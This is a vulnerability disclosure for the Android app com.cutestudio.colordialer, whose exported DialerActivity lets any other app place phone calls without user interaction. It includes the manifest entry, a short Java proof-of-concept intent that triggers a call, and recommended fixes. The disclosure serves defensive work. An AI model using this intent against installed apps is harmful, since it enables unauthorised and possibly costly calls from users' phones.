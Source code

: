 Vulnerability Report


Application: com.cutestudio.colordialer

Component: com.cutestudio.dialer.activities.DialerActivity

Vulnerability Type:CWE-284: Improper Access Control

Associated Risks: Unauthorized phone calls without user interaction



**Description**:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight leads to the potential for unauthorized phone calls to be initiated without any user interaction or consent. 

**Proof of Concept**:

![image](https://github.com/actuator/com.cutestudio.colordialer/assets/78701239/210bdd08-e54d-4b96-94f3-254317e6aef6)


A third-party application can create an intent targeting `com.cutestudio.dialer.activities.DialerActivity` with the `android.intent.action.CALL` action and a `tel:` URI to place a phone call. Given the exported nature of this activity, there's no verification in place to ensure the intent comes from a trusted source, leading to the misuse of the application's functionality.

**Code Sample**:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept in a third-party app 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

**Recommendations**:

1. Review the exported status of the `DialerActivity`. If it is not necessary for this activity to be exported, set `android:exported="false"` in the AndroidManifest.xml.
2. If the activity must remain exported, implement intent verification to ensure that only trusted applications or intents can invoke the functionality.

